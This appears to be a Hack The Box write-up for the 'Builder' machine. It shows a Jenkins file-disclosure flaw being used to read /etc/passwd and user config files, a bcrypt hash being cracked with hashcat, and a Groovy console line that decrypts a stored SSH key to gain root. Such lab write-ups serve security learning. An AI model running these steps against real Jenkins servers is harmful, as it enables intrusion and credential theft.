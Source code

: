 ```yaml
---
title: "Builder"
date: 06-04-2025
categories: [Linux, Medium]
tags: [Medium,Jenkins, LFI, Password Cracking]
image: https://labs.hackthebox.com/storage/avatars/a0f6d6a08e0806448341587cd59450a6.png
---
```


Builder is a medium Linux box. The machine only has two ports open one of which is an open **Jenkins** portal. This version of Jenkins is vulnerable to a file disclosure. Using this arbitrary file read we can read configuration files which give us a hashed password for a user that has login access to Jenkins. After cracking this password we can run a script inside groovy script which lets us decrypt the private ssh key that gives us root access.

![builder_info_card](assets/images/builder/Builder.png)

## Enumeration

Using nmap we see that there are only two ports open, ssh and 8080 which points to a Jenkins instance.

```
nmap 10.10.11.10 -p22,8080 -oN nmap/builder -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-06 19:10 CEST
Nmap scan report for 10.10.11.10
Host is up (0.016s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Dashboard [Jenkins]
|_http-server-header: Jetty(10.0.18)
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
```

If we go to `http://10.10.11.10:8080/` we get to view the Jenkins portal. At the bottom right we get which version is running which is 2.441. Going over the users page we see that there is another user registered that being Jennifer.

![builder](assets/images/builder/page.png)

This version is vulnerable to a file disclosure, I used [this](https://www.exploit-db.com/exploits/51993) script to retrieve the files from the server. But before I could do this I had to get familiar with Jenkins and how it stores file and user information. Below is a handy table I found of how the jenkins home directory is structured. 

```
/jenkins
├── config.xml
├── credentials.xml
├── jobs
├── plugins
├── users
├── secrets
├── fingerprints
├── workspace
├── logs
├── updates
├── userContent
└── ...
```
We can already see some files that could be of interest. Before we can retrieve them we must know their full path. I stumbled upon it by luck when testing for the file disclosure, when retrieving the `/etc/passwd` file I found the user `Jenkins` with its home directory located at `var/jenkins_home`. With the full path we can now try to retrieve the files.

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
```

With this file we can see that there is no one with a home directory in this machine so reading ssh keys is not going to work to get us access. Reading the `credentials.xml` file provides us with an encrypted text which seems to be an ssh key. I tried some scripts to decrypt it with some secret keys but they did not work. After doing some more research I was able to find that the file inside of `var/jenkins_home/users/users.xml` contains information about users. 

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>
      <string>jennifer_12108429903186576833</string>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>jennifer</string>
  <version>1</version>
</hudson.model.UserIdMapper>
  </idToDirectoryNameMap>
<hudson.model.UserIdMapper>
    </entry>
```

From this we get that Jennifer has a directory with a name of `jennifer_12108429903186576833` inside this directory we can retrieve her configuration file. Which is located at `var/jenkins_home/users/jennifer_12108429903186576833/config.xml`. Inside this file we can find a hashed password.

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
...
...
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```

The hash itself is `$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a` and we can use `Hashcat` with mode 3200 to crack it. Using `rockyou.txt` as a wordlist we get that the password is `princess`. Since Jennifer does not have a home directory and is not a user on the box we cant ssh into it just yet. But with this new credentials we can login as this user into the Jenkins instance.

Using [this](https://www.cloudsek.com/blog/xposing-the-exploitation-how-cve-2024-23897-led-to-the-compromise-of-github-repos-via-jenkins-lfi-vulnerability) blog post about the same CVE I was able to decrypt the ssh key that we previously found in the `credentials.xml` file. We can now go to http://10.10.11.10:8080/script/ where we can use the terminal to run the following line of code: 

```
println(hudson.util.Secret.fromString("{XXX=}").getPlainText())
```

After placing the encrypted key into `XXX` we get the private key to the user root which we can then use to ssh into the box.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt3G9oUyouXj/0CLya9Wz7Vs31bC4rdvgv7n9PCwrApm8PmGCSLgv
...
```

![builder](assets/images/builder/root.png)

